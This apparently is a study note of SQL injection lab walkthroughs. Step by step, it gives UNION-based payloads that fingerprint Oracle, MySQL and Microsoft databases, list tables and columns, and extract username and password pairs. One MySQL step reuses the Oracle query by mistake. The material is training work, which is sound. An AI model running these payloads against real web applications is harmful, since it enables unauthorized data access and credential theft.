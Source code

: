 Examining the database in SQL injection attacks

# Examining the database in SQL injection attacks

| Database type | Query |
| ------------- | ------| 
|Microsoft 		|	SELECT @@version |
|Oracle 		|	SELECT * FROM v$version |
|PostgreSQL 	| 	SELECT version() |
|MySQL 			|	SELECT @@version |

## Lab - SQL injection attack, querying the database type and version on Oracle

Steps: 

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 --
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' FROM DUAL --
```

3. Retrieve Oracle banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```
```
UNION SELECT * FROM v$version where banner LIKE 'oracle%'--

```

## SQL injection attack, querying the database type and version on MySQL and Microsoft


Steps

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 #
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' #
```

3. Retrieve Oracle database banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```

`#` = %23

## Listing the contents of the database


## Lab: SQL injection attack, listing the database contents on non-Oracle databases

Steps:

1. Determine the number of columns and column data type
```
category=Pets' order by 1, 2 --
category=Pets' union select 'a', 'a' --
```

2. Find all table name contains '%user%' | `%` = %25
```
category=Pets' union select table_name, 'a' from information_schema.tables where table_name like '%user%'--
```

3. List the table columns
```
category=Pets' union select table_name, column_name from information_schema.columns where table_name='pg_user' --
category=Pets' union select table_name, column_name from information_schema.columns where table_name='users_rfankd' -- 
```

4. Retrieve the table contents

```
category=Pets' union select username_grhpij, password_rhddiy from users_rfankd -- 

category=Pets' union select username_grhpij || ':' || password_rhddiy, null from users_rfankd -- 
```

## Lab: SQL injection attack, listing the database contents on Oracle

steps:
1. Determine the number of columns and columns data type
```
' ORDER BY 1,2 
' UNION SELECT 'a', 'a' FROM DUAL --
```

2. Examine the database type.
```
' UNION SELECT banner ,NULL FROM v$version --
```

3. Find all table contains 'U%' | `%` = %25
```
' UNION SELECT table_name,'a' FROM all_tables WHERE table_name like 'U%25' --
```

4. List the table columns
```
' UNION SELECT table_name, column_name FROM all_tab_columns WHERE table_name = 'USERS_WNFXKC'
``` 

5. Retrieve the table contents
```
' UNION SELECT USERNAME_ZATYRE, PASSWORD_FIACJD FROM USERS_WNFXKC --
```
